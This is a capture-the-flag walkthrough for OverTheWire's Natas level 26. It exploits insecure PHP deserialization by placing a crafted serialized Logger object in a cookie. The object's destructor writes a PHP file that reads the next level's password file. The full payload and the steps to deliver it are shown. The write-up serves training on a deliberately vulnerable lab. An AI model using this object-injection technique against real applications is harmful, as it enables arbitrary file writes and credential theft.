




# Natas Level 26 → Level 27

## Level Goal / Objective

Find the password for the next level.

🔗 https://overthewire.org/wargames/natas/natas26.html

## Tools You May Need

```text
Browser DevTools
Burp Suite
CyberChef
```

## Concept Focus

* PHP object injection
* Insecure deserialization
* Arbitrary file write

## Approach

### 1. Access the Level

```text
http://natas26.natas.labs.overthewire.org/
```

Authenticate using previous credentials.

---

### 2. Review Source Code

The application allows drawing lines and stores state in a cookie called:

```text
drawing
```

Reviewing the source reveals a `Logger` class with private properties and a destructor that writes data to a file.

This immediately makes the cookie interesting, because it is attacker-controlled and processed by the application.

---

### 3. Investigate Cookie Behavior

Submitting values into the `x1`, `y1`, `x2`, and `y2` fields creates or updates the `drawing` cookie.

From the source code, the goal becomes clear:

- Build a malicious serialized `Logger` object
- Base64 encode it for the cookie value
- Abuse the destructor to write PHP code into a file we can later access

---

### 4. Build the Payload

The PHP payload used to read the next password file was:

```php
<?php echo file_get_contents("/etc/natas_webpass/natas27"); ?>
```

The crafted serialized object sets:

- `logFile` → a writable file path in `img/`
- `initMsg` → empty string
- `exitMsg` → the PHP payload above

Example structure:

```text
O:6:"Logger":3:{
s:15:"\0Logger\0logFile";
s:42:"img/natas26_bontldhmabirsn9sus768acav8.php";
s:15:"\0Logger\0initMsg";
s:0:"";
s:15:"\0Logger\0exitMsg";
s:63:"<?php echo file_get_contents(\"/etc/natas_webpass/natas27\"); ?>";
}
```

---

### 5. Understand Why It Works

When PHP destroys the object, the destructor runs and writes `exitMsg` into the specified file.

Effectively, this creates a PHP file in a web-accessible location that contains:

```php
<?php echo file_get_contents("/etc/natas_webpass/natas27"); ?>
```

Browsing to that file executes the payload and prints the password.

---

### 6. Deliver the Exploit

Using CyberChef, prepare the serialized object and Base64 encode it to match the application’s cookie format.

Replace the `drawing` cookie with the crafted value.

Then browse to the file path set in `logFile` under the `img/` directory.

---

## Walkthrough (Screenshots)









---

## Password for Level 27

```text
u3RRffX... (redacted)
```

---

## Key Takeaways

* Untrusted deserialization can lead directly to code execution
* Magic methods like `__destruct()` are dangerous when attacker-controlled objects are accepted
* Cookies should never contain raw serialized objects without strong integrity protection
